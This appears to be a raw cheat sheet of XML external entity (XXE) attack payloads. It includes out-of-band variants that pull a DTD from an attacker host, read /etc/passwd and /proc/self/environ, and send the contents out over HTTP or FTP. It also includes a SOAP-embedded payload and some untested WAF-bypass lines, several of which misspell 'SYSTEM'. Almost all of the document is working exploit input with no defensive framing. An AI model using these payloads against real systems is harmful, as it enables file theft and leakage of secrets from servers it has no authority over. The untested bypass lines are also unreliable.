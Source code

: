 <?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE test [   
  <!ENTITY % one SYSTEM "http://attacker.tld/dtd-part" > 
  %one; 
  %two; 
  %four; 
]> 
 
## External dtd: ## 
 
<!ENTITY % three SYSTEM "file:///etc/passwd"> 
<!ENTITY % two "<!ENTITY % four SYSTEM 'file:///%three;'>"> 
 
-------------------------^ you might need to encode this % (depends on your target) as: % 
 
-------------- 
FTP 
-------------- 
<?xml version="1.0" ?> 
<!DOCTYPE a [  
<!ENTITY % asd SYSTEM "http://x.x.x.x:4444/ext.dtd"> 
%asd; 
%c; 
]> 
<a>&rrr;</a> 
 
 
## External dtd ## 
<!ENTITY % d SYSTEM "file:///proc/self/environ"> 
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>"> 
 
--------------------------- 
Inside SOAP body 
--------------------------- 
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body> 
 
 
--------------------------- 
Untested - WAF Bypass 
--------------------------- 
<!DOCTYPE :. SYTEM "http://" 
<!DOCTYPE :_-_: SYTEM "http://" 
<!DOCTYPE {0xdfbf} SYSTEM "http://" 
```